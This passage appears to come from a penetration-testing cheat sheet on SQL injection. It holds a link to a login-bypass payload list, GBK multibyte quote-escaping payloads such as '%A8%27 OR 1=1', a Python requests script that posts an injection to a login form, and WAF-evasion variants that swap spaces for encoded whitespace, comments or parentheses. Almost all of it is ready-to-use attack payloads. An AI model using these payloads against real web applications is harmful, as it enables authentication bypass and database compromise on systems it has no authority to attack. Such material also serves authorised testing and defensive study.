 ### **Recommended list**:

You should use as a username each line of the list and as password _**Pass1234.**_ _(This payloads are also included in the big list mentioned at the beginning of this section)_

[1KBsqli-hashbypass.txt](https://129538173-files.gitbook.io/\~/files/v0/b/gitbook-legacy-files/o/assets%2F-L\_2uGJGU7AVNRcqRvEi%2F-Lgxw4OPe8L5QKmPID0F%2F-Lgy-zrwLPf0cDzTUfoW%2Fsqli-hashbypass.txt?alt=media\&token=0b95f2e0-48b8-422e-a357-53d9ab271bd7)

### GBK Authentication Bypass <a href="#gbk-authentication-bypass" id="gbk-authentication-bypass"></a>

IF ' is being scaped you can use %A8%27, and when ' gets scaped it will be created: 0xA80x5c0x27 (_╘'_)



```sql
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```

### Python script

```python
import requests
url = "http://example.com/index.php" 
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3') 
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"} 
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url}) 
print r.text
```

### WAF Bypass



No Space (%20) - bypass using whitespace alternatives

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```sql
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```sql
?id=(1)and(1)=(1)--
```
